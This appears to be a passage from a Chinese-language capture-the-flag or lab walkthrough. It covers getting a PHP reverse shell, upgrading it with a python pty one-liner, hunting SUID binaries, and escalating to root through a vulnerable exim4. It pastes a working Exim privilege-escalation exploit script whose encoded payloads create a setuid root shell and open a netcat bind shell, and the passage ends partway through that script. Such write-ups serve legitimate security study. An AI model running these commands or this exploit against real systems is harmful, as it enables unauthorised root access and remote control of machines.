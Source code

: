 ```php
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![image-20211006233037731](/assets/img/image-20211006233037731.png)

拿到回弹shell，升级交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x03 提权

尝试sudo -l需要密码，再尝试寻找suid文件

```
find / -perm -u=s 2>/dev/null
```

![image-20211006233721939](/assets/img/image-20211006233721939.png)

发现exim4可以尝试利用

```
exim4 --version
```

![image-20211006233944474](/assets/img/image-20211006233944474.png)

```
 searchsploit -w exim 4.8
```

![image-20211006234423610](/assets/img/image-20211006234423610.png)

使用https://www.exploit-db.com/exploits/46996进行提权，在目标机保存poc并运行

```tsx

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
```